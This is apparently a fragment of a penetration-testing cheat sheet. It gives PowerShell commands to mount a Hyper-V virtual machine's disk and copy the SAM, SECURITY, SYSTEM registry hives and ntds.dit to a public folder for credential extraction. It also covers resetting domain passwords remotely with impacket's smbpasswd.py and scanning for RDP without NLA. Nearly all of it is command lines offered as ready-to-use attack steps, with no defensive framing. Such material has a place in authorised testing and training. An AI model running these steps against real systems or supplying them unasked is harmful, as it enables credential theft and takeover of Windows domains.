 #### Get the VHDX location of VM
```
Get-VM -VMName <VM NAME> | Select-object VMId | Get-VHD
Get-VM -VMName <VM NAME> | Select-object VMId | Get-VHD | Select-Object Path
```

#### Mount the VHDX
```
Mount-VHD -Path "<PATH TO VHDX>" -PassThru
Get-Disk | Get-Partition | Get-Volume
```

#### Copy senstive files and extract credentials
- From SAM or ntds.dit example.
```
copy-item D:\Windows\system32\config\SAM C:\users\public\
copy-item D:\Windows\system32\config\SECURITY C:\users\public\
copy-item D:\Windows\system32\config\SYSTEM C:\users\public\
copy-item D:\Windows\ntds\ntds.dit C:\users\public\
```

#### Unmount disk
```
Dismount-VHD -Path "<PATH TO VHDX>"
```

#### Start the VM
```
Start-VM -Name <VM NAME>
```

## Resetting a password remotely
- https://www.n00py.io/2021/09/resetting-expired-passwords-remotely/

### smbpasswd
- https://raw.githubusercontent.com/snovvcrash/impacket/smbpasswd/examples/smbpasswd.py
```
smbpasswd.py <DOMAIN>/<USER>:<PASSWORD>@<DC> -newpass '<NEW PASSWORD>'
```

### Remote Desktop Protocol
- Requires RDP without NLA enforced

#### Look for RDP without NLA
```
cme rdp <IP RANGE>
```

#### Reset password
- Login and will request to reset password
```
rdesktop <IP>
```
